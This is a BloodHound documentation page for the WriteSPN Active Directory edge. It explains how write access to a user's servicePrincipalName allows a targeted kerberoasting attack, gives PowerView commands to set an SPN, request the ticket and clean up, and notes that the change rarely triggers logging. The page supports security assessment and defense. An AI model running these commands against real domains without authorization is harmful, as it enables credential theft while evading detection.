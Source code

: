 ---
title: WriteSPN
description: The ability to write directly to the servicePrincipalNames attribute on a user object. 
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


Writing to this property gives you the opportunity to perform a targeted kerberoasting attack against that user.

## Abuse Info

A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with Get-DomainSPNTicket.

You may need to authenticate to the Domain Controller as the user with full control over the target user if you are not running a process as that user. To do this in conjunction with Set-DomainObject, first create a PSCredential object (these examples comes from the PowerView help documentation):

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\\dfm.a', $SecPassword)
```

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as the user with full control over the target user.
```
Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```
After running this, you can use Get-DomainSPNTicket as follows:
```
Get-DomainSPNTicket -Credential $Cred harmj0y | fl
```
The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName can be done with the Set-DomainObject command:
```
Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname
```
## Opsec Considerations

Modifying the servicePrincipalName attribute will not, by default, generate an event on the Domain Controller. Your target may have configured logging on users to generate 5136 events whenever a directory service is modified, but this configuration is very rare.

## Edge Schema

Source: [User](/resources/nodes/user), [Group](/resources/nodes/group), [Computer](/resources/nodes/computer)   
Destination: [User](/resources/nodes/user)  
Traversable: **Yes**  

## References

* [https://blog.harmj0y.net/redteaming/kerberoasting-revisited/](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/)

